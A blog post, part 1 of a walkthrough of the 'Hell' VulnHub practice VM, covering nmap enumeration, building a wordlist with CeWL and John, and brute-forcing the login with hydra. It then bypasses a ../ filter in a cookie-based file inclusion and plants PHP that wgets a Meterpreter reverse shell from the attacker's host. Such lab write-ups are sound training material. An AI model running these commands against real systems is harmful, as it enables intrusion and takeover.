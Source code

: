 ```yaml
---
author: recrudesce
comments: false
date: 2014-07-17 19:37:23+00:00
layout: post
slug: hell-walkthrough-part-1
title: Hell Walkthrough - Part 1
wordpress_id: 37
categories:
- VM's
tags:
- boot2root
- g0tmi1k
- hacking
- hell
- nmap
- peleus
- vulnhub
---
```


Part 1 | [Part 2](http://fourfourfourfour.co/2014/07/18/hell-walkthrough-part-2/) | [Part 3](http://fourfourfourfour.co/2014/07/19/hell-walkthrough-part-3/) | [Part 4](http://fourfourfourfour.co/2014/07/20/hell-walkthrough-part-4/) | [Part 5](http://fourfourfourfour.co/2014/07/21/hell-walkthrough-part-5/)

So, [Peleus](http://netsec.ws) released a vulnerable VM on [VulnHub](http://www.vulnhub.com), also known as a "boot2root", called Hell.

A lot of the techniques in this VM are known to me apart from the very last step. I will go through my thought process for each step and how I managed to go from enumeration to a root shell.  This is going to be a multipart walkthrough, therefore keep checking back for updates.



<blockquote>[@0x42424242](https://twitter.com/0x42424242) Finally rooted your fucking VM :P
> 
> -- Russ Watts (@recrudesce) [July 16, 2014](https://twitter.com/recrudesce/statuses/489505727887978496)</blockquote>



<!-- more -->



* * *





## Scoping the Joint


NMAP - the start of any fulfilling enumeration stage.  I ran a simple NMAP scan against the VM, which returned the following results


``` bash
root@pwk:~# nmap -sS -T4 --script banner 192.168.0.103

Starting Nmap 6.46 ( http://nmap.org ) at 2014-07-17 19:39 BST
Nmap scan report for 192.168.0.103
Host is up (0.00012s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
|_banner: SSH-2.0-OpenSSH_6.0p1 Debian-4+deb7u1
80/tcp  open  http
111/tcp open  rpcbind
666/tcp open  doom
|_banner: Welcome to the Admin Panel
MAC Address: 08:00:27:FF:3F:A0 (Cadmus Computer Systems)

Nmap done: 1 IP address (1 host up) scanned in 5.20 seconds

```


OK, so we have SSH, HTTP and apparently Doom ([yay Doom !](http://www.kongregate.com/games/mike_id/doom-1)) servers running. Based on previous experience, port 666 is more likely to be a service that is hidden behind a well known port. I wont go into the details of port 666 nor the service behind it, but lets say it's a distraction and a diversionary tactic - don't go there unless you want to waste time.  Unless you want to waste time, in which case fire up Netcat and go for your life !

Visting the web server in a browser presents a pretty boring page that welcomes us to the server and shows a cartoon.

[![](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_001.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_001.png)

This doesn't give us much to go on, therefore let's try out some simple things any pentester should try - let's see if a robots.txt file exists.  Well what do you know...

[![](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_002.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_002.png)

The /personal/ folder shows a creepy shrine site (this is incidentally the closest I've ever been to the face of a cow)

[![](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_003.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_003.png)

Yeah, creepy... The /super_secret_login_path_muhahaha/ folder presents a login page

[![](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_004.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_004.png)



* * *





## Getting In


It is assumed the username is either **admin** or **jack**, and the password relates to g0tmi1k in some way because this Jack guy is quite smitten. I could run Rockyou against the login page, but let's think simpler and first make a word list from the shrine site and mutate it a little with John The Ripper using a modified ruleset as per [netsec.ws](http://netsec.ws/?p=457)


``` bash
root@pwk:~# cewl http://192.168.0.103/personal/ -d 1 -m 6 -w password_list.txt -v
CeWL 5.0 Robin Wood (robin@digininja.org) (www.digininja.org)

Starting at http://192.168.0.103/personal/
Visiting: http://192.168.0.103/personal/, got response code 200
Attribute text found:

Words found

root@pwk:~# john --wordlist=password_list.txt --rules --stdout > password_list-mutated.txt
words: 4251  time: 0:00:00:00 DONE (Thu Jul 17 20:08:13 2014)  w/s: 47233  current: forever99
```


Now we have a password list, we can use hydra to brute force the login.


``` bash
root@pwk:~# hydra 192.168.0.103 http-form-post "/super_secret_login_path_muhahaha/login.php:username=^USER^&password=^PASS^:Login Failed" -l jack -P password_list-mutated.txt -t 20 -w 1 -o hydra-http-post-attack.txt
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

[WARNING] the waittime you set is low, this can result in errornous results
Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-17 20:10:12
[DATA] 20 tasks, 1 server, 4251 login tries (l:1/p:4251), ~212 tries per task
[DATA] attacking service http-post-form on port 80
[80][www-form] host: 192.168.0.103   login: jack   password: g0tmi1k69
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-17 20:10:22
```


Success, username **jack**, password **g0tmi1k69** (yes, more creepiness, this Jack guy needs locking up). Using these credentials presents us with a management style interface

[![](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_005.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_005.png)

I won't explain each section, but the two sections we are going to use are Notes and Personal.
Notes allows us to write arbitrary text to a note.txt file stored in "temporary storage", which is assumed to be /tmp as this is usually what people define as temporary storage.

[![hell_009](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_009.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_009.png)

Personal presents another login page, which sets a cookie which has an attribute that increases with each failed login.

[![](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_006.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_006.png)

[![](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_007.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_007.png)

When you hit 3 failed logins, the page reverts to the main panel, and adds an error message to the top.

[![hell_015](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_015.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_015.png)

On further investigation, the **intruder** attribute of the cookie is set which defines the file that is included at the top of the panel. I wonder if there's a local file inclusion vulnerability there.  I went about editing the cookie to try and include other files on the filesystem.  After a few minutes of frustration, I worked out that the code was filtering any instance of ../ in the include path - however, being the sneaky person I am, I discovered this can be bypassed by using ....// or ..././ instead.  Here's /etc/passwd included by setting the **intruder** cookie attribute to ....//....//....//....//etc/passwd

[![hell_008](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_008.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_008.png)

[![](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_010.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_010.png)

It looks like the page parses any code (HTML etc) in the included file, therefore we can poison the note.txt file with PHP via the Notes feature, and include it to execute the code.  First, a PHP based reverse staged Meterpreter is created and hosted on an HTTP server.


``` bash
root@pwk:~# msfpayload php/meterpreter/reverse_tcp LHOST=192.168.0.110 LPORT=443 R > sneaky.txt
```


As we are using a staged payload, a handler is required, therefore one is set up via Metasploit


``` bash
msf > use multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > set lhost 192.168.0.110
lhost => 192.168.0.110
msf exploit(handler) > run

[*] Started reverse handler on 192.168.0.110:443
[*] Starting the payload handler...
```


Once the failed login cookie is cleared to allow us to get to features again, the following is added to the note.txt file via the Notes feature, which will download our payload from our HTTP server to the /tmp folder on the host


``` bash
<?php echo shell_exec('wget http://192.168.0.110/sneaky.txt -O /tmp/sneaky.txt 2>&1');?>
```


[![hell_011](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_011.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_011.png)

Three failed logins are once again performed via the Personal feature to create the cookie, which is modified to include /tmp/note.txt (which includes our download PHP command)

[![hell_012](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_012.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_012.png)

When the main panel page is reloaded, our poisoned note.txt file is included, the PHP is parsed and our payload file is downloaded.

[![hell_013](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_013.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_013.png)

We're onto something here !  The cookie is edited once again to include /tmp/sneaky.txt and the panel page reloaded to execute stage 1 of our Meterpreter payload, which makes a connection to our waiting handler.

[![hell_014](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_014.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_014.png)


``` bash
[*] Sending stage (40551 bytes) to 192.168.0.103
[*] Meterpreter session 1 opened (192.168.0.110:443 -> 192.168.0.103:48153) at 2014-07-17 21:55:37 +0100

meterpreter >
```




Now would be a good time for a party, but there's hacking to do.  Plus I have no cake or balloons.  Or friends. _*whimper*_ ... HACKING !!!




The Metepreter session can be used to get a shell, which doesn't seem to be TTY, but we can fix that with a nifty command thanks to [g0tmi1k](http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) himself (who is presumably hiding from Jack, the creepy so-and-so). The id command shows that we are currently under the context of the www-data user.





``` bash
meterpreter > shell
Process 10279 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/sh")'
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```


BAM ! We've just started the journey. Now onto [Part 2](http://fourfourfourfour.co/2014/07/18/hell-walkthrough-part-2) - which involves further enumeration, and some hopping between users. You're in for a long long ride.
